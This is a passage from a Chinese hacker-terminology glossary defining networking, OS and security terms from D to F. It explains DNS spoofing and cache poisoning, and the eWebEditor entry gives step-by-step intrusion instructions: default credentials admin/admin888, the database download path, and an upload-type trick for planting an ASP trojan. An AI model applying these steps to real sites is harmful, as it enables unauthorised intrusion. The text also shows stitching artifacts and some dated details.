攻击者有自己的域（attacker.net）和一个已被攻陷的 DNS 服务器（ns.attacker.net）。注意！我说的是被攻陷的 DNS 服务器，因为攻击者已经自定义了他自己的 DNS 服务器的记录。比如，记录可以是 www.google.com=81.81.81.81，下面是具体的步骤：

1. 攻击者向你的 DNS 服务器发送请求，查询 www.attacker.net，如图 D-5 所示。
2. 你的 DNS 服务器不知道这台主机的 IP 地址，因为它不属于本身域，所以你的 DNS 服务器会问此主机所属域的 DNS 服务器，如图 D-6 所示。
3. 这时已经被攻陷的 DNS 服务器就会回复你的 DNS 服务器，同时它也会给出它所有的记录（other records 就包括连接 www.google.com 的记录），如图 D-7 所示。
4. 这时，DNS SERVER 的 GOOGLE 记录也被同时修改了，当再有机器向它查询 GOOGLE 的记录时，它会返回那个被修改的记录，如图 D-8 所示。





### 一、DNS ID 欺骗（DNS ID Spoofing）

如图 D-9、图 D-10 所示，我们可以看到，当主机 X 要与主机 Y 联系时需要得到它的 IP 地址。然而在绝大多数情况下，X 只有 Y 的名字，这样，DNS 协议就是用来解决名字到 IP 地址的问题的。

首先，X 就向它所在域的 DNS 服务器询问 Y 的 IP 地址。其间，主机 X 分配一个随机数，这个数也将会出现在从 DNS 服务器返回的信息里。当 X 收到回复后，它会对比两个数字，如果一致，则收到信息被视为有效。

可这样做并非十分安全，任何人都可以组织一次攻击来获得这个 ID。如果你用 LAN，别人就可以利用嗅探器捕获你的请求 ID，然后根据这个 ID 伪造一个回复信息，信息里含有攻击者所提供的 IP 地址。这样，X 会把攻击者提供的 IP 地址当作 Y 的。

因为 DNS 协议提出请求是依赖了 UDP 的（只有在 zone transfer 时才用 TCP），这也就意味着发送一个伪造的包是极其简单的，因为没有 SYN/ACK 号（不像 TCP，UDP 没有提供一个小型防 IP 欺骗的防护）。


但是，这样的攻击是被局限的。攻击者用嗅探器截获 ID，回复构造过的包给受害主机，但数据包还是会传去 DNS 服务器，而 DNS 服务器也照样会回复（除非攻击者拦截并阻止对网关的请求，或实施 ARP 缓存麻痹才可能在转换网络中攻击）。

这就意味着攻击者必须在真 DNS 服务器前回复。即为了攻击成功，他必须和被攻击者在同一个 LAN，只有这样他才可以快速地 ping 通过并且捕获对方的数据包。

这种方法可以借助 **ARP 欺骗** 完成，**CAIN** 里的“ARP 欺骗”功能也就是利用的这个原理。

### 三、借助生日悖论的精确攻击

### 什么是“生日论”？

“生日论”得名于一个能产生奇怪现象的数学模型，即如果有 23 人在一起，那么很有可能其中的两人是相同的生日。

其实要理解也不是那么困难：假设现在你在一个派对问某人的生日，那么他跟你不同生日的几率就是 364/365=0.997，而相同的概率是 1-364/365=0.003。

接着，你再问另外一个人，他的生日不同于前一人且不同于你的概率就是 (364/365)*(363/365)=0.992，这样至少可以知道我们三人中，两人有相同生日的概率为 1-0.992=0.008。如果继续这样的推算，很快就能算得 23 人中有两人生日相同的概率高达 50%。

在上述的最为普遍的 DNS 欺骗攻击中，是通过窃听（嗅探）网络来得到 X 的 ID 号码，然后回复相同的 ID，其中含有攻击者提供的 IP。但是这种攻击需要嗅探网络中 X 生成的 DNS 数据，这是不是意味着攻击者不能不用嗅探器实施攻击呢？这里就要借助生日悖论了。

DNS 包的 ID 号是用两字节构成的，这意味着有 65535 个可能值！也就是说攻击者如果想要成功攻击的话，他要构造出 65535 个不同的 ID 号进行伪造回复，这里面仅有一个包是可用的。

如果这样攻击的话，我们需要相当好的带宽，而且我们还不知道何时发送伪造的回复。我们必须先知道对方有个请求，然后紧接着及时地（在来自真的 DNS 服务器的回复之前）发送回复。

## 黑客术语图文辞典 → DOMAIN

从另一个角度来看，我们是有可能去直接麻痹 DNS 服务器的。攻击者是向 DNS 服务器询问解析 www.attacker.net，多亏有从 ns.attacker.net 来的恶意记录 zone transfer，攻击者才可以麻痹 DNS 服务器的高速缓存。这种攻击的局限在于攻击者必须运行自己带有恶意记录的 DNS 服务器。

DNS 协议是用 UDP 回复，UDP 是非连接状态的协议，没有 TCP 那种三次握手的过程。所以，这也就使得可以非常容易地用你选的任意 IP 发送 UDP 包。

为什么攻击者在可以从任意 DNS 服务器发送伪造包的情况下要辛辛苦苦地架设自己的 DNS 服务器呢？他可以直接询问受害者的 DNS 服务器解析 www.google.com，然后立即发送含伪造 IP 的包给 www.google.com 的域名服务器啊？

这个思路中有一个问题，那就是受害者的 DNS 服务器将要向 ns.google.com 发送一次请求，从而得到 www.google.com 的 IP，同时有一个请求的 ID 号。所以又一次地，攻击者就必须发送 65535 个含 ns.google.com 的伪造包，作为受害者域名服务器的源地址。这其中至少有一个包是吻合的，看来就有可能会成功。

但是如果攻击者向受害者的 DNS 服务器发送了 100 份请求来解析 www.google.com（如图 D-11），那么 ns.victim.com 也将会向 ns.google.com 发送 100 份请求，然后我们发送 100 个从 ns.google.com 到 ns.victim.com 的伪造回复（如图 D-12），这又会怎样呢？如果你已经理解了刚刚提到的生日悖论原理，你就应该懂得：相比之下，冲撞（猜对）的概率已经有了可观的提高。


### document.write() 脚本

Document.write() 是 JavaScript 或 HTML 语言的常用函数，意思是“在当前页面输出”。语法为：`document.write("输出内容")`，输出内容为字符串形式，并用双引号前后包括起来。

### DOMAIN——黑客技术基础

DOMAIN 即域，是 Windows 系统组成的网络中的重要概念，也是 Windows 系统组成的网络的精华所在。以下是微软官方的解释：

> 域既是 Windows 网络操作系统的逻辑组织单元，也是 Internet 的逻辑组织单元，在 Windows 网络操作系统中，域是安全边界。域管理员只能管理域的内部，除非其他的域赋予他管理权限；每个域都有自己的安全策略，以及它与其他域的安全信任关系。

实际上我们可以把域和工作组联系起来理解：在工作组上，你一切的设置在本机上进行，包括各种策略、用户登录等，密码是放在本机的数据库进行验证。如果你的计算机加入域的话，各种策略是域控制器统一设定，用户名和密码也是放到域控制器去验证，也就是说你的账号密码可以在同一域的任何一台计算机登录。

域的真正含义指的是服务器控制网络上的计算机能否加入的计算机组合。一提到组合，势必需要严格的控制，所以实行严格的管理对网络安全是非常必要的。在对等网模式下，任何一台电脑只要接入网络，其他机器就都可以访问共享资源，如共享上网等。

## DR-DOS——操作系统及其相关

DR-DOS 是数字研究公司开发的、最初用于 PC 机上的操作系统。DR-DOS 的全称是 Digital Research-Disk Operating System（数字研究—磁盘操作系统），主要支持 IBM PC 兼容机。

从 1990 年 PC 机广泛使用 Windows 3.0 开始，DOS 系统被逐步取代。到 1995 年大部分 PC 机全面采用 Windows 95 操作系统时，DOS 的影响已经日渐式微，DR-DOS 也随之在桌面市场迅速衰落。

目前 DR-DOS 在单任务嵌入式设备中还有少量应用，另有极少数 DOS 爱好者还在研究或使用 DR-DOS。2004 年推出了 DR-DOS 8.0 版本，功能上仅做了很小的修改，可支持 FAT32 和大硬盘。

## DRDoS 攻击——攻击方法与行为

DRDoS（Distributed Reflection Denial of Service Attack，分布式反射拒绝服务攻击）同 DDoS 攻击不同，该方式靠的是发送带有被害者 IP 地址的数据包给攻击主机。这些攻击主机一般都是正常的机器，攻击者向他们发送 SYN 请求连接，而来源 IP 是受害者的 IP，攻击主机收到此包后会返回 SYN/ACK 包给受害主机。

这种攻击的优点在于难以追踪，而且发动 DRDoS 也只需花费攻击者很少的资源。

## Drop——数据库

Drop 是 SQL 数据库中用作删除的函数语句，常用语法包括：

- `DROP TABLE` —— 从数据库中删除表
- `DROP VIEW` —— 从数据库中删除视图
- `DROP INDEX` —— 从数据库中删除索引
- `DROP PROCEDURE` —— 从数据库中删除存储过程
- `DROP TRIGGER` —— 从数据库中删除触发器
- `DROP SCHEMA` —— 从数据库中删除一个模块
- `DROP DOMAIN` —— 从数据库中删除一个域

## 黑客术语图文辞典 → DSNIFF

## DSNIFF——黑客工具

Dsniff 是一个高级的口令嗅探器，是第一批扩展了传统 sniffer 概念的监听工具。这个工具可以将伪造的数据包注入到网络，并将通信数据重新定向到攻击者的机器。支持 telnet、ftp、smtp、pop、imap、http 以及其他的一些应用协议，如图 D-13 所示。


Dsniff 允许攻击者在交换环境的网络内窃听数据，甚至在攻击者和攻击目标不在同一个 LAN（局域网）的情况下也能使攻击者收集到他想要的数据。

## DSN 连接——数据库

DSN 是数据源名（Data Source Name）的缩写，是一个唯一标识某数据源的字符串。DSN 标识了一个包含了如何连接某一特定数据源的信息的数据结构，这个信息包括了要使用何种 ODBC 驱动程序，以及要连接哪个数据库。我们可以通过控制面板中的 32 位 ODBC 数据源来创建、修改及删除 DSN。

## DVBBS——脚本

动网论坛的英文名称，它是国内使用最广的论坛系统，因曝出过很多利用价值极高的漏洞而被大家所熟知。最著名的有：上传漏洞、提权漏洞、挂马漏洞等。


## E-Mail——黑客技术基础

E-mail 是 electronic mail 的简称，中文称“电子邮件”或“电子信箱”，标志为 @，通常被大家昵称为“伊妹儿”。它是一种用电子手段提供信息交换的通信方式，是 Internet 应用最广的服务。用户通过网络的电子邮件系统，可以用非常低廉的价格以非常快速的方式与世界上任何一个角落的网络用户联系。

邮件可以是文字、图像、声音等各种方式，并可以自己定义接收大量免费的新闻、专题邮件，实现轻松的信息搜索。

## E-Mail 欺骗

E-mail 欺骗行为表现形式可能各异，但原理相同：通常是骗用户进行一个毁坏性的操作或暴露敏感信息（例如口令），其行为迹象一般表现为：

欺骗者通过发送 E-mail 给用户，宣称邮件来自系统管理员，要求用户将他们的口令改变为特定的字符，或者直接要求用户提供敏感信息，并“威胁”用户不照此办理将关闭用户的账户。

用户应了解，任何 MIS 人员都不会用 E-mail 发出这样的要求。通常应该是发出一份备忘录，或通过其他的验证手段。为什么欺骗者能够冒充系统管理员发送邮件呢？这是由于简单邮件传输协议（SMTP）没有验证系统，伪造 E-mail 十分方便。如果站点允许与 SMTP 端口联系，任何人都可以进行操作，甚至虚构某人的名义发出 E-mail。

E-mail 欺骗大多用在钓鱼攻击，钓鱼者冒充一些论坛或大型网站发送一些活动的通知，而这些通知所链接的地址正是钓鱼的页面。欺骗性 E-mail 也会制造安全漏洞。

## echo 命令

echo 命令是用来显示或隐藏 DOS 状态下屏幕所显示的内容。在 BAT 文件第一行加上 `echo off` 命令后，以后的屏幕输出命令，包括其他命令产生的提示都会被隐藏。

比如在 `echo off` 的下一行使用 `dir`，屏幕显示结果是光标原地闪烁，并无任何目录列表的显示。`echo on` 是解除 `echo off` 的命令。

另外，echo 命令也可以进行简单的文本输出，例如输入命令 `echo cody >> est.txt`，就在本地建立了一个名为 est.txt、内容为 cody 的文本文档。

## ECHO 数据包

ICMP 数据包的一种，详情请见 ICMP 词条。

## Eclipse

Eclipse 是一个使用非常广泛的 IDE，主要用于 JAVA 程序的开发。它是开放源代码的、基于 Java 的可扩展开发平台。就其本身而言，它只是一个框架和一组服务，用于通过插件组件构建开发环境。幸运的是，Eclipse 附带了一个标准的插件集，包括 Java 开发工具（Java Development Tools，JDT）。

## 黑客术语图文辞典：Eclipse 到 ED2K 连接

虽然大多数用户很乐于将 Eclipse 当作 Java IDE 来使用，但 Eclipse 的目标不仅限于此。Eclipse 还包括插件开发环境（Plug-in Development Environment，PDE），这个组件主要针对希望扩展 Eclipse 的软件开发人员，因为它允许构建与 Eclipse 环境无缝集成的工具。

由于 Eclipse 中的每样东西都是插件，对于给 Eclipse 提供插件，以及给用户提供一致和统一的集成开发环境而言，所有工具开发人员都具有同等的发挥场所。而且，这种平等和一致性并不仅限于 Java 开发工具。

尽管 Eclipse 是使用 Java 语言开发的，但它的用途并不限于 Java 语言，它还支持诸如 C/C++、COBOL 和 Eiffel 等编程语言。Eclipse 框架还可用来作为与软件开发无关的其他应用程序类型的基础，比如内容管理系统。

## eCos 操作系统及其相关

eCos 全称为 Embedded Configurable Operating System，是一个新的操作系统，可以说是嵌入式领域的一颗新星。它诞生于 1997 年，其全部代码使用 C 语言编写，最早由 Cygnus 公司开发，不久被 Red Hat 收购。

eCos 最大的特点是模块化，内核可配置。它是一个针对 16 位、32 位和 64 位处理器的可移植开源代码的嵌入式 RTOS。eCos 具有相当丰富的特性和一个配置工具，后者能够让你选取你所需要的特性。eCos 最小版本只有几百个字节，而且更为重要的是，eCos 提供的 Linux 兼容 API 能让开发人员轻松地将 Linux 应用进行移植。

## ED2K 连接：黑客技术基础

ED2K 也叫 “eDonkey2000 Network”，是一种文件共享网络协议。最初用于共享音乐、电影和软件。与多数文件共享网络一样，它是分布式的，文件基于 P2P 原理存放于用户的电脑上，而不是存储于一个中枢服务器。

```
ed2k://|file|文件名|文件大小|文件指纹|/
```

- 文件名：虽然最直观醒目，但是最不关键，作用仅是便于搜索；
- 文件大小：也没有什么用，主要用来分辨片子的清晰度，一般情况是越大越好；
- 文件指纹：又叫文件 ID，有时称为 hash，这才是 ED2K 链接里面的关键。

很多文件即使文件名不一样，但是只要文件 ID 一致，ED2K 服务器就视其为同一个文件。如果想知道你欲下载的文件是否以前已经下载过了，可以将下载文件的文件 ID 与你以前保存过的 ED2K 链接中的文件 ID 进行对比。

如上面所说，ED2K 是分布式的，文件基于 P2P 原理存放于用户的电脑上，而不是存储于一个中枢服务器。其客户端程序连接到这个网络来共享文件。ED2K 服务器作为一个通信中心，使用户在 ED2K 网络内查找文件。它的客户端和服务端可以工作于 Windows、Macintosh、Linux、UNIX 操作系统；任何人都可以作为服务器加入这个网络。由于服务器经常变化，客户端会经常更新它的服务器列表。

ED2K 网络采用混合 MD4 摘要算法来检查识别文件，可以将不同文件名的同一文件成功识别为一个文件，并使同一文件名的不同文件得以区分。它的另一个特性是对大于 9.28 MB 的文件，在下载完成前将其分割，这加速了大型文件的发送速度。

为了便于文件搜索，一些 Web 站点对比较热门的文件建立 ED2K 链接，这些网站通常也提供热门服务器列表便于用户更新。目前应用最广泛的 ED2K 服务器软件是 Lugdunum，客户端有 eDonkey（电驴）和 eMule（电骡）。

## EFS 数据加密｜黑客安全技术

EFS 是 Windows 自带的以公共密钥加密为基础的加密服务，可以很好地保证用户私有的数据不受其他用户访问。当用户将指定的文件进行 EFS 加密后，只有此用户才能正常访问，这样很好地保护了用户文件的私密性。

EFS 可以使文件具有机密性，但不提供完整保护，并提供可选的数据恢复能力，系统管理员可以恢复另一用户加密的数据。EFS 也可以实现多用户（当然是被许可的用户）共享存取一个已经加密的数据，访问加密的文件快且容易。

加密后的数据无论怎样移动都保持加密状态，但必须在 NTFS 分区下移动。在 Windows 2000/XP 以及 Windows .NET 系统中，如果试图把一个 EFS 加密文件移动或复制到 FAT/FAT32 分区会遭到拒绝。

EFS 与 NTFS 紧密地集成在一起，当创建临时文件时，只要所有文件在 NTFS 卷上，原始文件的属性就会被复制到临时文件中。如果加密了一个文件，EFS 也会将其临时文件进行加密。EFS 驻留在操作系统内核中，并且使用不分页池存储文件加密密钥，保证了密钥不会出现在分页文件中。这防止了一些应用程序在创建临时文件时泄密。

通过 EFS 加密敏感性文件，会增加更多层级的安全性防护。如果用户持有一个已加密的 NTFS 文件的私钥，他就能够打开这个文件，并透明地将该文件作为普通文档使用。

## EIGRP｜黑客技术基础

EIGRP 的全名为 Enhanced Interior Gateway Routing Protocol，即加强型内部网关路由协议，是由 Cisco 公司开发的距离矢量路由协议，支持 IP、IPX 等多种网络层协议。

EIGRP 是一个平衡混合型路由协议（Cisco 公司创造的术语），既有传统的距离矢量协议的特点：路由信息依靠邻居路由器通告，遵守路由水平分割和反向毒化规则，路由自动归纳，配置简单。又有传统的链路状态路由协议的特点：没有路由跳数的限制，当路由信息发生变化时，采用增量更新的方式，保留对所有可能路由（网络拓扑结构）的了解，支持变长子网掩码，路由手动归纳。该协议同时又具有自己独特的特点：支持非等成本路由上的负载均衡，采用差分更新算法（DUAL）在确保无路由环路的前提下，收敛迅速。因而适用于大中型网络。

## EIP 词语技术

EIP（指令指针寄存器）是 CPU 内部寄存器（Register）中的一个，拥有非常高的读写速度，与 CS 配合使用，可跟踪程序的执行过程。

## Elhttp 应用程序

Elhttp 服务器是一款超轻量级的 HTTP 代理服务器软件，支持 UNIX 和 Windows。

## Emacs 程序语言与开发

Emacs（macro editor，宏编辑器）是一款自由软件产品，在 Linux 系统中比较流行。Emacs 最开始是由 Richard Stallman 编写的，他的初衷是将 Emacs 设计成一个 Linux 的 shell，同时还增加了一些现代操作系统应支持的用户环境（比如 mail 的收发、Web 的查询、新闻阅读、日志功能等）。另外，在 Emacs 中还包括了 Lisp 语言的解释执行功能。

Emacs 的一个缺点是它占用的磁盘空间比较大，因此为了支持用户的使用，提供多种模式。进行安装时，可根据选项设置指定的模式，以减少磁盘的使用量。

## Enigma Protector 加密解密

Enigma Protector 是一款优秀的软件保护系统，界面如图 E-1 所示，支持 Win32 可执行文件（*.EXE）、动态链接库（*.DLL）、ActiveX 控件（*.OCX）和屏幕保护程序（*.SCR）。它应用艺术性的加密、数据压缩和其他安全特性来保护您的程序免遭破解。它可以通过内部 API 函数改变模式参数来创建试用版和注册版程序，允许您为自己的软件添加保护和注册系统，并且支持多语言。


图 E-1

## Escape()｜加密解密

Escape() 是 JavaScript 的简单加密函数（很多网页在加密时都使用），分别是编码和解码字符串。加密后的代码不能直接运行，可用 `eval(codeString)` 函数检查 JavaScript 代码并执行，必选项 codeString 参数是包含有效 JavaScript 代码的字符串值，与之相对应的是解密函数 `unescape()`。

## ESMTP｜黑客技术基础

ESMTP（Extended SMTP，扩展 SMTP）即对标准 SMTP 协议进行的扩展。它与 SMTP 服务的区别在于：使用 SMTP 发信不需要验证用户账户，而用 ESMTP 发信时，服务器会要求用户提供用户名和密码以便验证身份。验证之后的邮件发送过程与 SMTP 方式一样，这使得系统中没有账号的用户无法利用该 ESMTP 服务器乱发邮件，更有效地抑制垃圾邮件的泛滥。

## ESP（堆栈指针寄存器）｜调试技术

ESP（堆栈指针寄存器）是 CPU 内部寄存器（Register）中的一个，拥有非常高的读写速度，与 SS 配合使用，可指向目前的堆栈位置。

## EST｜特定名称

EST 即邪恶八进制，是 EvilOctal Security Team 的简称，也称“邪八”，邪恶八进制的性质是公益免费的。

**邪恶八进制信息安全团队（EvilOctal Security Team, E.S.T.）**是中国民间一个倡导并从事前瞻性信息安全技术研究的互联网资讯站点，其标志如图 E-2 所示。站点采用团队管理模式，为来自五湖四海的信息安全爱好者能够团结在一起，而造就了一个和谐平静的技术交流平台。他们十分崇尚互联网资源的共享，并且努力追求单纯的技术与文化交流氛围。

在重视积极推动安全技术与文化发展步入正轨的同时，他们还有意识地开始倾向培养技术研发和运营管理全面发展的复合型团队成员，并立志为推动祖国信息安全事业发展尽团队的一份微薄之力。

同时他们也欢迎并殷切希望，网络上云游的技术高手们能够参与到他们的技术话题讨论中来，对他们的技术进行斧正和点拨。邪恶八进制信息安全团队十分期待更为专业的技术指导和管理方面的建议。As We Do, As You Know! 力求专业，引领前瞻，这就是邪恶八进制信息安全团队。

**团队中文志训：**倡导中国前瞻性信息安全团队文化，整合专业安全与古典黑客精神，努力为祖国的信息安全撑起一片蓝天。

**团队英文志训：**As We Do, As You Know!（吾之所为，汝之所见。）

**团队倡导信仰：**信息安全技术道德化，信息安全区域和平化，做正义的信息安全。

**团队文化宗旨：**培养道德正义的信息安全爱好者，引导社会形成积极的信息安全风气，让信息安全文化成为一种职业信仰。


## ESP 定律｜调试技术

ESP 定律的原理是堆栈平衡原理。理论上其适用范围是几乎全部的压缩壳、部分加密壳，只要是在 JMP 到 OEP 后，ESP=0012FFC4 的壳。

## ETHEREAL 应用程序

ETHEREAL 是一个可以用于 Windows 和 Unix 下的开源网络协议分析器，即嗅探器，如图 E-3 所示。其历史悠久且使用广泛，在其官方网站上不仅可以下载到二进制的可执行安装包，还可以下载到公开的源代码和编译中需要的组件，这需要自行编译才能使用。


## Ettercap 黑客工具

Ettercap 是一款基于命令行下的局域网嗅探器／拦截器／日志器，如图 E-4 所示。它支持主动和被动的多种协议解析（甚至是 SSH 和 HTTPS 这种加密过的），还可以进行已建立连接的数据注入和实时过滤，保持连接同步。大部分嗅探模式都是强大且全面的嗅探组合，并支持插件。该工具能够识别您是否处在交换式局域网中，通过使用操作系统指纹（主动或被动）技术可以得出局域网结构。


图 E-4

## Eval 脚本

Eval 函数可以把一个字符串当作一个 `JavaScript` 表达式一样去执行它。具体地说，就是 Eval 接受一个字符串类型的参数，将这个字符串作为代码在上下文环境中执行，并返回执行的结果。Eval 函数与 `execute()` 一起被广泛用于一句话木马技术中。

## Everyone 权限——操作系统及其相关

Everyone 组：该用户组较为特殊，Windows XP 所有用户组（Administrators 组、Power User 组、Users 组、Guests 组）都隶属于这个组，因此，这些用户组都拥有该组（Everyone 组）拥有的所有权限。

## eWebEditor——黑客技术基础

eWebEditor 是基于浏览器的、所见即所得的在线 HTML 编辑器。它能够在网页上实现许多桌面编辑软件（如：Word）所具有的强大可视编辑功能。Web 开发人员可以用其把传统的多行文本输入框 `<TEXTAREA>` 替换为可视化的富文本输入框，使最终用户可以可视化地发布 HTML 格式的网页内容。

目前 eWebEditor 已经成了许多站长的必备网站管理工具，但正因为它的大量使用，而安全措施相对薄弱，使其成为入侵时许多人首选的落脚点。

一般来说，当攻击者发现目标网站存在 eWebEditor 时，会首先利用默认密码进入，如果失败再下载默认路径的数据库进行密码破解。只要进入 eWebEditor 的后台，网站就很有可能被攻陷。

一般攻击 eWebEditor 的思路是利用 `Google Hack` 先找到 eWebEditor 的登录页面，再通过默认的用户/密码：`admin/admin888` 或 `admin/admin` 进入；如果不行的话再尝试下载数据库，其路径一般是 `db/ewebeditor.mdb` 或 `db/ewebeditr.asp`，下载后再将 MD5 加密的密码解密进行登录。最后新增一个样式，样式名称可以任意填写，接着将路径模式选择为绝对根路径，将显示路径栏清空，在图片类型中加入 `|aaspsp`，这样就能在新增的样式中上传 `ASP 木马` 了。

## eXeScope｜应用程序

eXeScope 是小巧但功能极其强大的本地化工具，如图 E-5 所示，能在没有资源文件的情况下分析、显示不同的信息，重写可执行文件的资源，包括 EXE、DLL、OCX 等。一般用于汉化，可以直接修改用 VC++ 及 DELPHI 编制的程序资源，包括更改字体、菜单、对话框的排列、字符串表等。


## EXE｜操作系统及其相关

在 Windows 操作系统下，EXE 文件是可执行文件。

## exe2bat｜应用程序

exe2bat 是将可执行文件转换为批处理文件的小工具，如图 E-6 所示，一般用于入侵时遇到有系统权限，但无法上传 EXE 文件的情况。这时可以利用它将 EXE 转换为 BAT，再以文本方式传送并保存为 BAT 再执行。


## execute() 函数｜脚本

ASP 脚本里的一个常用函数，主要功能是执行一个所给定的脚本语句，它也是一句话木马的关键所在。

## Exeinfo PE｜加密解密

Exeinfo PE 是一款免费的 Win32 可执行程序检查器，如图 E-7 所示，它可以检查程序的打包方式、EXE 保护等，帮助开发人员对程序进行破解。


## EXE Stealth｜加密解密

EXE Stealth 是一个体积小巧且功能实用的 EXE 可执行文件加密工具，如图 E-8 所示。程序支持 CRC 保护、API 重定向、删除 EXE 文件头信息等功能，还可以为你的 EXE 可执行文件增加防止 SmartCheck、SoftICE、IDA 等跟踪调试工具跟踪破解的功能。


## Exploit｜特定名称

Exploit 从字面上的意思是“开拓、开发”，而在黑客技术中，它是漏洞利用工具的代称。一个 Exploit 一般专门用来对付一个漏洞，例如 WebDAV 漏洞、RPC 漏洞，它是将复杂的漏洞利用过程写进一个程序，从而达到高效快速利用漏洞的目的。

## eXPressor｜加密解密

它最早是一款使用 LZMA 压缩算法的 EXE 文件压缩工具，拥有极大的压缩比，如图 E-9 所示。现在的 eXPressor 已经发展为一款软件保护工具，用来保护您的软件免遭破解，可以帮助开发人员添加注册码保护，创建试用版或演示版的共享软件。


图 E-9

## EXT2 和 EXT3｜操作系统及其相关

EXT2 与 EXT3 都是 Linux 系统中常用的文件系统，其性质与 FAT32 与 NTFS 对于 Windows 一样。下面分别具体介绍一下两种文件系统：

**EXT2：**是 GNU/Linux 系统中标准的文件系统，其特点为存取文件的性能极好，对于中小型文件更显示出优势，这主要得利于其簇快取层的优良设计。其单一文件大小与文件系统本身的容量上限和文件系统本身的簇大小有关，在一般常见的 x86 电脑系统中，簇最大为 4 KB，则单一文件大小上限为 2048 G，而文件系统的容量上限为 16384 G。但由于目前 2.4 内核所能使用的单一分区最大只有 2048 G，因此实际上能使用的文件系统容量最多也只有 2048 G。

**EXT3：**顾名思义，它就是 EXT2 的下一代，也就是在目前 EXT2 的功能上再加上日志功能，目前它离实用阶段还有一段距离。EXT3 是一种日志式文件系统，其优越性在于：由于文件系统都有快取层参与运作，如不使用时必须将文件系统卸下，以便将快取层的资料写回磁盘中。因此每当系统要关机时，必须将其所有的文件系统全部卸下后才能进行关机。如果在文件系统尚未卸下前就关机（如停电），下次重开机后会造成文件系统资料不一致，这时就必须做文件系统重整工作，将不一致与错误的地方修复。然而，这个重整工作是相当耗时的，特别是容量大的文件系统，而且也不能 100% 保证所有资料都不会丢失，很容易在大型服务器上造成一些问题。

### F

### FAKE THE MAC ADDRESS 攻击方法与行为

即伪造 MAC 地址，这也是 ARP 欺骗中最常用的技术。其基本过程是向网关发送伪造过的 ARP 数据包，其中源 MAC 地址对应的是被冒充主机的 MAC 地址。网关收到数据包后就把被冒充的 MAC 和你的 IP 对应起来了。详情请看 ARP 欺骗词条。

### FAT 操作系统及其相关

FAT 是一种常用的文件系统名称。自 1981 年首次问世以来，FAT 已经成为一个历经沧桑的计算机术语。由于时代原因，包括 Windows NT、Windows 98、MacOS 以及多种 Unix 版本在内的大多数操作系统均对 FAT 提供支持。

FAT 文件系统限制使用 8.3 格式的文件命名规范。这就是说，在一个文件名中，句点之前部分的最大长度为 8 个字符，句点之后部分的最大长度为 3 个字符。FAT 文件系统中的文件名必须以字母或数字开头，并且不得包含空格。此外，FAT 文件名不区分大小写字母。

由于 FAT 所支持的磁盘容量较小，现在只在 MP3 或其他小型存储设备上使用。如图 F-1 所示，为 MP3 的 FAT 文件系统。


### FAT32 操作系统及其相关

这是微软公司继 FAT 后推出的一种新的磁盘分区格式，也是目前最流行的文件格式。这种格式采用 32 位的文件分配表，使其对磁盘的管理能力大大增强，突破了 FAT16 对每一个分区的容量只有 2GB 的限制。FAT32 可以支持的分区大小达到 32GB，磁盘总容量最大达 2TB（1TB=1024GB）。运用其分区格式后，用户可以将一个大硬盘定义成一个分区，而不必分为几个分区使用，大大方便了对硬盘的管理工作。

而且，FAT32 还具有一个最大的优点：在一个不超过 8GB 的分区中，FAT32 分区格式的每个簇容量都固定为 4KB，与 FAT16 相比，可以大大地减少硬盘空间的浪费，提高了硬盘利用效率。

但是，这种分区格式也有它的缺点。首先是采用 FAT32 格式分区的磁盘由于文件分配表的扩大，运行速度比采用 FAT16 格式分区的硬盘要慢；另外，由于 DOS 系统和某些早期的应用软件不支持这种分区格式，所以采用这种分区格式后，就无法再使用老的 DOS 操作系统和某些旧的应用软件了。

### Fedora 操作系统及其相关

Fedora 全名为 Fedora Linux，它跟 Ubuntu 一样是众多 Linux 发行套件之一。它是一套从 Red Hat Linux 发展出来的免费 Linux 系统。

Fedora 和 Red Hat 这两个 Linux 的发行版联系很密切。Fedora 的前身就是 Red Hat Linux。2003 年 9 月，Red Hat 公司突然宣布不再推出个人使用的发行套件而专心发展商业版本（Red Hat Enterprise Linux）的桌面套件，同时也宣布将原有的 Red Hat Linux 开发计划和 Fedora 计划整合成一个新的 Fedora Project。

Fedora Project 将会由红帽公司赞助，以 Red Hat Linux 9 为范本加以改进，原本的开发团队将会继续参与 Fedora 的开发计划，同时也鼓励开放原始码社群参与开发工作。

Fedora Core 被 Red Hat 公司定位为新技术的实验场，与 Red Hat Enterprise Linux 被定位为稳定性优先不同，许多新的技术都会在 Fedora Core 中检验，如果稳定的话，红帽公司则会考虑加入 Red Hat Enterprise Linux 中。Fedora 预计每年发行 2-3 次的发行版本。


图 F-2

2003 年 11 月，第一个发行版本 Fedora Core 1 出炉，版本代号为 Yarrow。这一版本与 Red Hat Linux 非常相似，除了加入新的安装机制 yum 之外，只是把 Red Hat 的标志换掉，并更新套件而已。现在 Fedora 最新的版本是 Fedora 8，其登录界面如图 F-2 所示。

### FC 操作系统及其相关

FC 是 Fedora Core 的缩写。

### FCt-FTP 应用程序

一款可以让手机登录 FTP 的软件，如图 F-3 所示。


图 F-3

《黑客术语图文辞典》→File Monitor

### FHS 应用程序

一个 NT 下可以找到隐藏服务的小工具，支持 Windows 2K/XP/2003。

### File Monitor 应用程序

File Monitor 是一个出色的文件系统监视软件，如图 F-4 所示；它将所有与文件的一切相关操作（如读取、修改、出错信息等）全部记录下来以供用户参考，并允许用户对记录的信息进行保存、过滤、查找等处理，这就为用户对系统的维护提供了极大的便利。利用它可以非常容易地观察木马或病毒创建或改写文件的情况。


图 F-4

### FILEINFO 应用程序

一款侦测壳的软件，简称 FI，程序为 fi.exe，其有着极强的侦壳能力，如图 F-5 所示。使用方法也很简单，将待侦测壳的软件（如 cody.exe）和 fi.exe 置于同一目录下，执行 Windows“开始”菜单的“运行”，输入 fi cody 即可。


图 F-5

### FinalData 应用程序

